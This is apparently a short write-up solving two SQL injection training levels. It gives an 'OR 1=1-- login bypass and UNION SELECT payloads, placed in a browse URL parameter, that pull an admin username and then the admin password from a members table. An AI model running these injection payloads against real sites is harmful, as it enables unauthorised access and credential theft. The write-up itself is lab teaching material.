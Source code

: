 # SQLi Levels
## Lvl 1
SQL injection 101
```
'OR 1=1--
```
## Lvl 2
Select 'Browse members' and select any letter. The URL modifies to ```'sqli/2?browse&q=a'```

Modify to ```'=a'``` to
```UNION SELECT all username,2 FROM members WHERE admin=1--'``` which returns admin username bellamond.

In order to retrieve the password ```=a' UNION SELECT all password,2 FROM members WHERE admin=1--```
